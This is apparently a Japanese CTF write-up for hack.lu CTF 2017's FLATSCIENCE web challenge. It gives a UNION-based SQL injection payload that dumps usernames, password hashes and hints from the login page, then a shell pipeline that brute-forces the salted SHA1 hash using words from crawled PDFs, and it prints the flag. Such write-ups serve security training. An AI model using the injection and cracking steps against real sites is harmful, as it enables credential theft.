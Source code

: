 ```yaml
---
layout: post
alias: "/blog/2017/10/20/hacklu-ctf-2017-flatscience/"
date: "2017-10-20T01:32:23+09:00"
tags: [ "ctf", "writeup", "hacklu-ctf", "web", "misc" ]
---
```


# hack.lu CTF 2017: FLATSCIENCE

人が`robots.txt`など下調べをし、別の人がSQLiでhashedなpasswordを抜き、残りの逆像求める部分を私がした。
たいてい独立にそれぞれ解いて終わるので、協力してやる感じは嫌いじゃないです。

## problem

<https://flatscience.flatearth.fluxfingers.net/>

昔のサイトにあったような迷路みたいなやつ

## solution

まず `robots.txt`。

```
User-agent: *
Disallow: /login.php
Disallow: /admin.php
```

`/login.php` ではSLQiができて、 `' union select 1, group_concat(name || ':' || password || ':' || hint) from Users;--` のようにすれば

```
admin:3fab54a50e770d830c0416df817567662a9dc85c:my fav word in my fav paper?!
fritze:2f72d9dd0f9d6ef605f402c91f517ea4:my love is...?
hansi:9e895c06352f4513fe179bf92b498397:the password is password
```

また `<!-- TODO: Remove ?debug-Parameter! -->` により、 `/login.php?debug` からソースコードを拾える。
`sha1($pass."Salz!")` が `3fab54a50e770d830c0416df817567662a9dc85c` な `$pass` を求めればよい。

`my fav word in my fav paper?!` って言ってるのでたくさん置いてあるPDF中にありそう。
とりあえず`wget`で再帰的に全部抜いて、grepとかではだめだったので以下のようにする:

``` sh
for f in flatscience.flatearth.fluxfingers.net/**/*.pdf ; do
    pdftotext $f /dev/stdout
done \
| sed 's/\s/\n/g' \
| sed 's/^\W*// ; s/\W*$//' \
| sort \
| uniq \
| while read line ; do
    echo -n "$line "
    echo -n "$line"'Salz!' | sha1sum
done \
| grep 3fab54a50e770d830c0416df817567662a9dc85c
```

`flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}`
